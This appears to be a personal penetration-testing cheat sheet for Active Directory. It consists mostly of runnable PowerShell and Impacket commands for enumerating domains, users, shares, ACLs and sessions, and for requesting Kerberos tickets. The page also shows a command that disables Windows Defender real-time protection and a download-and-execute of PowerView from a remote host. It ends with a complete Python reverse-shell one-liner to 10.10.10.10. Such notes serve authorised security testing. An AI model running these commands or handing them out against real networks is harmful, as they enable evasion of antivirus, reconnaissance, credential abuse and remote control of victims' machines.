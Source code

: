 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


## DOMAIN ENUMERATION

I do prefer to do manual enumeration but on large enterprice networks, some automated scan would come in handy to search for low hanging fruits

Automated Scanners
AdPeas.ps1

You can aswell use BloodHound to visualize data

```powershell
#For SharpHound.exe
./SharpHound.exe --CollectionMethod All

#For SharpHound.ps1
Invoke-BloodHound -ZipFileName ratloot -CollectionMethod All -Domain  rat.local

```
<span class="demo-highlight"># Patch AMSI or disable AV</span>

Getting hands dirty with PowerView
```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>
 <span class="demo-highlight"># Domain & Controller Enumeration</span>

```powershell
      Get-NetDomain 
            
      Get-NetDomainController     
```
<br>
 <span class="demo-highlight"># User Enumeration</span>

```powershell
# Get all users present in the domain
Get-NetUsers | select cn

# Get users sorted with most logoncounts
Get-UserProperty -Properties logoncount | where logoncount | sort logoncount -Descending

# Get all the users in the domain and pipe their username to build a wordlist that could be used with crackmapexec later for spraying
Get-NetUsers | select samaccountname > username.txt

```
<br>
<span class="demo-highlight"># Group Enumeration </span>

```powershell
# Get AD groups data either all or of a user
Get-NetGroup [-Domain <target>] [-FullData] [-GroupName "*admin*"] [-Username 'user_name']

# Get Members of a group
Get-NetGroupMember [-GroupName 'group_name'] [-Recurse]	
```
<br>
<span class="demo-highlight"># Share Enumeration</span>

```powershell
# Find interesting shares
Invoke-ShareFinder -ExcludeStandard -ExcludeIPC -ExcludePrint	

```
<br>
<span class="demo-highlight"># GPO Enumeration</span>

```powershell
# List all GPOs in the domain
Get-NetGPO [-ComputerName <rat.domain>]	

#Find Interesting GPO
Get-NetGPOGroup

```
<br>
<span class="demo-highlight"># OU Enumeration</span>

```powershell
# Get all OU (Organisational Units) in the domain
Get-NetOU [-FullData]

# Get gplink of an OU to get GPOs applied to it
(Get-NetOU -Name 'test').gplink	

# Get GPO of a GPlink
Get-NetGPO -GPOName '{cadkfapsdfasdfaudvajkd}'

# Get GPO of an OU using gplink
((Get-NetOU -FullData <OU_NAME>).gplink -split "cn=" -split ",")[1] | Get-NetGPO
```
<br>
<span class="demo-highlight"># ACL Enumeration</span>

```powershell
# Find interesting ACL
Invoke-ACLScanner -ResolveGUIDS	

# Find interesting ACL owned by a certain user :rat:
Invoke-ACLScanner -ResolveGUIDS | ?{$_.IdentityReference -match 'rat'}	
```
<br>
<span class="demo-highlight"># Trust Enumeration</span>

```powershell
# Map all domain trust
Get-NetDomainTrust [-Domain <target>]

# Get all the domain of a forest
Get-NetForestDomain [-Forest <target>]	
```
<br>
<span class="demo-highlight"># Hunting Users and Sessions</span>

```powershell
# Get list of all machines where current user has local admin access
Find-LocalAdminAccess	

# Invoke-EnumerateLocalAdmin	
Find all admins on all computers

# Find machines where a domain admin has a session, checkaccess tells you if you also have access to that machine
Invoke-UserHunter [-GroupName <group_name>] [-CheckAccess]	

# Get list of active sessions on a computer
Get-NetSession [-ComputerName <comp_name>]	

# Get list of Users logged-on on a system
Get-LoggedOnLocal [-ComputerName <comp_name>]	
```

<br>
## Kerberos Attacks
<br>
<span class="demo-highlight"># working from linux with creds</span>


````powershell
# username : rat
# password : r@tty419
# domain : rodent.local
impacket-getTGT rodent.local/rat:'r@tty419'


# now import the ticket into memory
export KRB5CCNAME=/tmp/rat.ccache

# confirm the ticket in memory 
klist
````
<br>
<br>
<span class="demo-highlight"># working from windows with creds</span>
````powershell
# Using Rubeus

./Rubeus.exe asktgt 
````

<br>
<br>
## RTF && SCF Weaponization

<br>
<br>
<br>

# MITM6 IPV6 Attack

<br>
<br>
<br>




```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```